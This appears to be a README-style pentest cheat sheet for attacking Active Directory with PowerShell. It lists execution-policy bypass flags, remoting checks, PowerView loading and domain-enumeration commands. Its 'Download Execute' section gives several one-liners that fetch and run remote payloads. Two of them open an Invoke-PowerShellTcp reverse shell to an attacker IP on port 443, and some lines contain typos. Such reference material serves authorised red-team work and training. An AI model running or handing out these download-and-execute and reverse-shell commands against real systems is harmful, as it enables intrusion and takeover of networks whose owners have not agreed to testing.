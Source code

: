 # Active-Directory
AD is a toolkit for advanced requeriments during pentest.

### PowerShell Execution Policy
```powershell.exe -ep bypass
powershell -nop -ep bypass
powershell -c
powershell -encodedcommand
$env:PSExecutionPolicyReference="bypass"
```
### Check PowerShell Remoting is enabled
```
Test-WSMan -ComputerName SRV1
Get-Service WinRM -ComputerName SRV1,SRV2,SRV3 | Select MachineName,Name,Status,StartupType
Test-WSMan -ComputerName SRV2 -Credential Company\Administrator
Test-WSMan -ComputerName SRV2 -Credential Company\Administrator -Authentication Default
```

### Enable PowerShell Remoting using PowerShell
```
Enable-PSRemoting
Enable-PSRemoting -Force
Enable-PSRemoting -SkipNetworkProfileCheck -Force
```

### Powershell Modules
```
Import-Module .\powerview.ps1
Get-Command -Module powerview.ps1
```

### Download Execute
```
powershell.exe -iex (New-Object Net.WebClient).DownloadString('http://172.16.1.104/payload.ps1' -UseBasicParsing)
powershell.exe -iex (iwr 'http://172.16.1.104/payload.ps1')
powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.X -Port 443
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/InvokePowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.X Port 443
$h=New-Object -ComObject Msxm12.XMLHTTP;$h.open('GET','http://172.16.1.104/payload.ps1',$false);$h.send();iex $h.responseText
$wr = [System.NET.WebRequest]::Create("http://172.16.1.104/payload.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

### Domain Enumeration
Descriptions | Command 
------------ | ----------
Enumerate Native executables and .NET classes | `$ADClass = [System.DirectoryServices.ActiveDirectory.Domain]` `$ADClass::GetCurrentDomain()`
Get Current Domain | `Get-NetDomain`
Get Object Of Domain (And Another Domain) | `Get-NetDomain -Domain petrolium.local`
Get Domain SID for current domain | `Get-DomainSID`
Get Domain Controllers For The Current Domain | `Get-NetDomainController`
Get Domain Controllers For Another Domain | `Get-NetDomainController -Domain globalbank.local`
Get Domain Policy For Current Domain |`Get-DomainPolicy`
Get Domain Policy For Current Domain |`(Get-DomainPolicy)."system access"`
Get Domain Policy For Another Domain |`Get-DomainPolicy -domain vpn.empire.local)."system access"`
Get A List Of Users In The Current Domain | `Get-NetUser \| select cn`
Get A List Of Users In The Current Domain | `Get-NetUser \| select -ExpandProperty samaccountname`